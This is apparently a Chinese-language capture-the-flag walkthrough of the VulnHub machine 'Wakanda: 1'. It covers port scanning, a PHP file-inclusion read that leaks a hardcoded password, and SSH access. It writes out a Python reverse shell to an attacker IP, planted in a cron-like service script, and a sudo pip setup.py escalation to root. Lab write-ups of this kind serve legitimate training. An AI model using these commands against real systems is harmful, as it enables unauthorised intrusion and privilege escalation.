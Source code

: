 # Wakanda: 1

2024-4-20 https://www.vulnhub.com/entry/wakanda-1,251/

difficulty: Intermediate

## IP

192.168.10.172

## Scan

Open Port -> 80,111,3333,44502

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37702/udp   status
|   100024  1          39758/udp6  status
|   100024  1          44502/tcp   status
|_  100024  1          46769/tcp6  status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 1c984756fcb814088f93ca36447fea7a (DSA)
|   2048 f1d50478d33a9bdc13df0f5f7ffbf426 (RSA)
|   256 d834415d9bfe51bcc64e02145ee108c5 (ECDSA)
|_  256 0ef58d293c7357c738086d5084b66c27 (ED25519)
44502/tcp open  status  1 (RPC #100024)
```

先对 80web 页面进行目录扫描，看看有什么有价值目录。

```
http://192.168.10.172/backup               (Status: 200) [Size: 0]
http://192.168.10.172/fr.php               (Status: 200) [Size: 0]
http://192.168.10.172/index.php            (Status: 200) [Size: 1527]
http://192.168.10.172/shell                (Status: 200) [Size: 0]
http://192.168.10.172/secret               (Status: 200) [Size: 0]
http://192.168.10.172/admin                (Status: 200) [Size: 0]
```

发现这些页面都是空页面，没有任何价值。

查看 http://192.168.10.172/ 中的源代码，发现有这样一段注释：

```
<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
```

是一个参数，让我们把它拼接到主页上看看有什么效果 http://192.168.10.172/?lang=fr ，我们看到页面上显示的文字变成了法语，说明这个参数能控制页面上加载的内容，很容易联想到有文件包含漏洞，使用 php 包装器看看 index.php 中有什么内容：http://192.168.10.172/?lang=php://filter/read=convert.base64-encode/resource=index 得到了 index.php 的源码：

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}
?>
<?php
if (isset($_GET['lang']))
{
echo $message;
}
else
{
?>
Next opening of the largest vibranium market. The products come directly from the wakanda. stay tuned!
<?php
}
?>

</body></html>
```

发现密码信息：Niamey4Ever227!!! ，现在我们需要一个用户名，再次查看主页的显示内容，在最底部发现了这样的内容：Made by@mamadou，那么这个 mamadou 有没有可能就是用户名，让我们尝试 ssh 登陆 3333 端口，登陆成功，但是显示的终端好像不是一个 bash，像是一个 python 的接口，进行验证：print 1，能够输出 1，可以直接升级到 tty：import pty; pty.spawn("/bin/bash")，就显示了一个正常的 bash 界面。

## flag1

在 /home/mamadou 中找到了 flag1.txt：

```
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
```

## flag2

在 /home/devops 发现了 flag2.txt，但是目前我们没有权限去读取这个文件。经过 linpeas 系统枚举，发现了一个隐藏文件：/srv/.antivirus.py，这个文件的所属者为 devops，从名字上看，这个文件有可能是被 cron 定时调用，而且这个文件对我们有写权限，看看里面什么内容：

```
open('/tmp/test','w').write('test')
```

通过对 file /tmp/test 文件的更新时间来看，发现是每隔 5 分钟就写入一次。将以下脚本信息写入到 文件中，等待 5 分钟，获得反弹的 shell 连接：

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /srv/.antivirus.py
```

升级下 tty，获得了 flag2:

```
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
```

## flag3

flag3 应该是在/root 目录中，需要我们升级到 root 权限才能读取。

sudo -l 看看有什么可以利用的程序：

```
devops@Wakanda1:/var/spool/cron$ sudo -l
sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

使用 pip 升级到 root 权限：

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

# id

uid=0(root) gid=0(root) groups=0(root)
```

读取 flag3:

```
# cat root.txt
cat root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

## 拓展

找到 5 分钟执行一次的任务是在哪里触发的，cron 中没有相关记录，可能是在系统 service 中，对/lib/systemd/system/目录进行查看，发现 /lib/systemd/system/antivirus.service 查看其内容为：

```
[Unit]
Description=Antivirus
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=300
User=devops
ExecStart=/usr/bin/env python /srv/.antivirus.py

[Install]
WantedBy=multi-user.target
```

RestartSec=300 确实是 5 分钟执行一次。
